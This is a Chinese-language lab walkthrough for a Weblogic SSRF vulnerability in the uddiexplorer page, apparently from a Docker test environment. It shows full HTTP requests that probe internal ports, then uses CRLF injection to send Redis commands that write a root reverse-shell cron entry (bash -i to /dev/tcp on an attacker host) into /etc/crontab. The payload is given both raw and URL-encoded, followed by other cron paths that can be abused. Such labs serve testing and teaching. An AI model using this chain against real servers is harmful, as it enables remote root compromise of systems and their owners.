 # Weblogic SSRF漏洞

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 测试环境搭建

编译及启动测试环境

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

## SSRF漏洞测试

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在brupsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![](1.png)

修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。

![](2.png)

通过错误的不同，即可探测内网状态。

## 注入HTTP头，利用Redis反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：

![](3.png)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.18.0.3:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](4.png)

成功反弹：

![](5.png)


最后补充一下，可进行利用的cron有如下几个地方：

 - /etc/crontab 这个是肯定的
 - /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
 - /var/spool/cron/root centos系统下root用户的cron文件
 - /var/spool/cron/crontabs/root debian系统下root用户的cron文件

